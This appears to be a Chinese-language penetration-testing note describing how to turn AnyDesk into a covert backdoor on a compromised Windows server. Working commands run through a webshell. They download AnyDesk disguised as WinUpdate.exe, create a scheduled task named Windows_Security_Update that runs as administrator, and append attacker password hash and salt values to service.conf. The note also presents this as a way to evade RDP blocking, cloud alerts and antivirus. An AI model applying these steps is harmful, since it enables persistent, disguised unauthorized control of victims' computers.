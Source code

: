 ### 3.6 使用anydesk做远控

anydesk是类似teamviewer的远程管理软件，但是他不用安装且体积小

**场景举例**

1）有云锁，护卫神等禁止3389登录时-
2）类似阿里云这种，登录3389会报警-
3）连接内网中可以出网的windows机器

**注意事项**

1）启动anydesk的权限需要桌面用户权限，比如，IIS做中间件的环境中，拿到了webshell一般都是没有桌面用户权限的，如果启动anydesk不会成功

2）启动anydesk时桌面不能被注销

3）有可能连接上去是黑屏，这个是因为该桌面用户退出远程桌面但没有注销，此时，除非能用-
winlogon启动anydesk，否则没法使用屏幕

    https://www.zhihuifly.com/t/topic/1121
    
    https://422926799.github.io/posts/6b1dcf8a.html
    
        

这里是还有很骚气的方法，往后在亲自复现…

* * *

复现另外的方法…

**AnyDesk利用**

AnyDesk 是一款声称速度最快的免费长途衔接/长途桌面操控软件，据说是前 TeamViewer 开发小组人员自立门户的商品，它拥有领先的视频压缩技能 DeskRT， 能够轻松穿透防火墙/路由器。 重点是不用安装，而且体积只有2,917KB。-
镜外诈骗人员使用修改版本做为远控，发给受害人获取控制电脑权限。

本地anydesk设置自主访问密码，然后生成的配置文件放到目标中，这样只要获取ad.anynet.id即可连接。收费版支持命令行反回ad.anynet.id与设置密码。不需要像免费版这么复杂。

**使用场景**

    云锁，护卫神等禁止3389登录绕过；
    
    阿里云登录3389则会IP报警提示绕过；
    
    内网穿透机器、传输文件等；
    
    白名单软件过全世界所有杀软、流量加密；
    
    BlackRouter勒索软件通过AnyDesk捆绑进行传播；
    
        

**支持操作系统**

    Windows
    MacOS
    Android
    IOS
    Linux
    FreeBSD
    Raspberry Pi
    Chrome OS
    
        

**利用条件**

    桌面用户权
    
    anydesk时桌面不能被注
    
        

**首先本机生成密码:**-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200927205157982.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
配置文件将会保存在：-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F2020092720521626.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
service.conf存放

    ad.anynet.pwd_hash与ad.anynet.pwd_salt提取出来。
    
        

system.conf存放：

    ad.anynet.id
    
        

Webshell中将Anydesk上传受害者机器，运行一遍Anydesk，然后kill掉

    taskkill /F /IM AnyDesk.exe
    
        

在进入到

    C:\Users\{username}\AppData\Roaming\AnyDesk
    
        

路径把以上两个配置写入到service.conf文件下-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200927205313505.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
连接：-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200927205337752.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
命令复现

    powershelgl.exe "(New-Object System.Net.WebClient).DownloadFile(\"https://download.anydesk.com/AnyDesk.exe\",\"C:\inetpub\wwwroot\WinUpdate.exe\")"
    
        

确定有哪些用户当前正在使用桌面：

    powershelgl.exe "(((Get-WmiObject -Class Win32_Process -Filter 'Name=\"explorer.exe\"').GetOwner().User) -split '\n')"
    
        

创建一个计划任务:

    schtasks /Create /TN Windows_Security_Update /SC monthly /tr "C:\inetpub\wwwroot\WinUpdate.exe" /RU administrator
    
        

先执行一次生成配置文件：

    schtasks /run /tn Windows_Security_Update
    
        

结束掉进程：

    taskkill /F /IM WinUpdate.exe
    
        

添加密码

    echo ad.anynet.pwd_hash=a7f9ef816567ddeb071c985771698c70a6aec4c70dc284943b3104dcc06b8184 >> C:\Users\administrator\AppData\Roaming\AnyDesk\service.conf
    echo ad.anynet.pwd_salt=5afbd8fc7334032ddbddd489363e25f8 >> C:\Users\administrator\AppData\Roaming\AnyDesk\service.conf
    
        

利用需要一定条件，除此之外也需要考虑WebShell免杀。

    https://www.moonsec.com/archives/1098   --云渗透思路
    
        

* * *